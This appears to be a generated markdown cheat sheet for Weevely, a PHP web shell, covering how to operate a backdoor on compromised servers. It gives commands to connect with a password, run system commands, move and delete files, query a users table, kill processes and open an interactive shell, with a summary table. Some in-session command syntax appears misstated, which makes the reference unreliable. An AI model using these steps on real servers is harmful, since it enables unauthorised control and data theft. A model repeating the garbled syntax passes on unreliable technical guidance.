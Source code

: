 Here’s a detailed overview of **Weevely**, a PHP web shell that provides a simple yet powerful backdoor for remote administration.

### **Weevely**

**Weevely** is a lightweight PHP web shell that provides remote access to a compromised server. It’s used for web-based penetration testing and remote administration.

#### **Common Commands and Options**

1. **Connect to a Remote Shell:**
   - **Description:** Connect to a remote web shell.
   - **Command:**
     ```bash
     weevely <url> <password>
     ```
   - **Example:**
     ```bash
     weevely http://target.com/shell.php password123
     ```
   - **Explanation:**
     - Connects to the web shell located at `http://target.com/shell.php` using the specified password.

2. **Execute Commands:**
   - **Description:** Run commands on the target server.
   - **Command:**
     ```bash
     weevely> <command>
     ```
   - **Example:**
     ```bash
     weevely> whoami
     weevely> ls -la
     ```
   - **Explanation:**
     - Executes the command `whoami` or `ls -la` on the remote server.

3. **Upload/Download Files:**
   - **Description:** Upload or download files to/from the target server.
   - **Commands:**
     - **Upload File:**
       ```bash
       weevely> upload <local_path> <remote_path>
       ```
     - **Download File:**
       ```bash
       weevely> download <remote_path> <local_path>
       ```
   - **Example:**
     - **Upload:**
       ```bash
       weevely> upload ./localfile.txt /var/www/html/remote.txt
       ```
     - **Download:**
       ```bash
       weevely> download /var/www/html/remote.txt ./localfile.txt
       ```
   - **Explanation:**
     - Uploads `localfile.txt` to `/var/www/html/remote.txt` on the remote server.
     - Downloads `remote.txt` from the remote server to `localfile.txt`.

4. **File Management:**
   - **Description:** Manage files on the remote server.
   - **Commands:**
     - **List Files:**
       ```bash
       weevely> ls <directory>
       ```
     - **Delete File:**
       ```bash
       weevely> rm <file_path>
       ```
   - **Example:**
     - **List Files:**
       ```bash
       weevely> ls /var/www/html
       ```
     - **Delete File:**
       ```bash
       weevely> rm /var/www/html/remote.txt
       ```
   - **Explanation:**
     - Lists files in the `/var/www/html` directory.
     - Deletes `remote.txt` from the remote server.

5. **Database Management:**
   - **Description:** Manage databases on the target server.
   - **Commands:**
     - **SQL Query:**
       ```bash
       weevely> sql <query>
       ```
   - **Example:**
     ```bash
     weevely> sql SELECT * FROM users;
     ```
   - **Explanation:**
     - Executes the SQL query `SELECT * FROM users;` on the remote database.

6. **Interact with Processes:**
   - **Description:** Manage processes on the target server.
   - **Commands:**
     - **List Processes:**
       ```bash
       weevely> ps
       ```
     - **Kill Process:**
       ```bash
       weevely> kill <pid>
       ```
   - **Example:**
     - **List Processes:**
       ```bash
       weevely> ps
       ```
     - **Kill Process:**
       ```bash
       weevely> kill 1234
       ```
   - **Explanation:**
     - Lists running processes on the remote server.
     - Terminates the process with PID `1234`.

7. **Interactive Shell:**
   - **Description:** Start an interactive shell session on the target server.
   - **Command:**
     ```bash
     weevely> shell
     ```
   - **Example:**
     ```bash
     weevely> shell
     ```
   - **Explanation:**
     - Opens an interactive shell session on the remote server.

### **Summary of Weevely Commands**

| **Command**                  | **Description**                                   | **Example**                                    |
|------------------------------|---------------------------------------------------|------------------------------------------------|
| `weevely <url> <password>`   | Connect to a remote web shell                     | `weevely http://target.com/shell.php password123` |
| `weevely> <command>`         | Execute a command on the remote server            | `weevely> whoami`                              |
| `weevely> upload <local_path> <remote_path>` | Upload a file to the remote server              | `weevely> upload ./localfile.txt /var/www/html/remote.txt` |
| `weevely> download <remote_path> <local_path>` | Download a file from the remote server            | `weevely> download /var/www/html/remote.txt ./localfile.txt` |
| `weevely> ls <directory>`    | List files in a directory on the remote server    | `weevely> ls /var/www/html`                    |
| `weevely> rm <file_path>`    | Delete a file on the remote server                | `weevely> rm /var/www/html/remote.txt`         |
| `weevely> sql <query>`       | Execute an SQL query on the remote database       | `weevely> sql SELECT * FROM users;`            |
| `weevely> ps`                | List processes on the remote server               | `weevely> ps`                                 |
| `weevely> kill <pid>`        | Kill a process on the remote server               | `weevely> kill 1234`                           |
| `weevely> shell`             | Start an interactive shell session                | `weevely> shell`                              |

Weevely provides a powerful yet simple interface for remote control via a PHP web shell, enabling various administrative tasks and file management operations on compromised servers.